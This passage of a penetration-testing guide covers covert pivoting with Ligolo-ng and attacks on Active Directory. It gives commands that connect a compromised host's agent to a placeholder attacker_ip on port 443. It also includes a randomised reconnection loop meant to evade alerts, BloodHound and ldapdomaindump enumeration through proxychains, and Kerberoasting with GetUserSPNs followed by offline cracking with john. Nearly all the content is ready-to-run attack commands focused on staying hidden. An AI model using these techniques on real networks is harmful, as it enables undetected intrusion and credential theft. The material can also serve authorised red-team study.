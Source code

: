 ## Advanced Evasion Techniques

### Traffic Obfuscation

Ligolo-ng communications can be obfuscated to evade detection:

```bash
# On compromised host, use non-standard port
./agent -connect attacker_ip:443 -ignore-cert
```

### Limiting Network Fingerprint

Configure specific routes instead of routing entire subnets to minimize visibility:

```bash
# Instead of routing the whole subnet
# sudo ip route add 10.10.10.0/24 dev ligolo

# Only route specific hosts
sudo ip route add 10.10.10.50/32 dev ligolo
sudo ip route add 10.10.10.51/32 dev ligolo
```

### Periodic Reconnection Strategy

To avoid long-lived connections that might trigger alerts:

```bash
#!/bin/bash
# reconnection_script.sh

while true; do
    ./agent -connect attacker_ip:11601 -ignore-cert
    sleep $((RANDOM % 300 + 300))  # Random sleep between 5-10 minutes
done
```

## Attacking Domain Infrastructure

### Domain Enumeration Through Tunnel

```bash
# BloodHound collection through SOCKS proxy
proxychains python3 bloodhound.py -d domain.local -u username -p password -c All

# Using ldapdomaindump
proxychains ldapdomaindump -u 'DOMAIN\\username' -p 'password' 10.10.10.10
```

### Kerberoasting Through Pivots

```bash
# Request service tickets
proxychains python3 GetUserSPNs.py domain.local/username:password -request

# Crack obtained tickets
john --wordlist=wordlist.txt hashes.txt
```
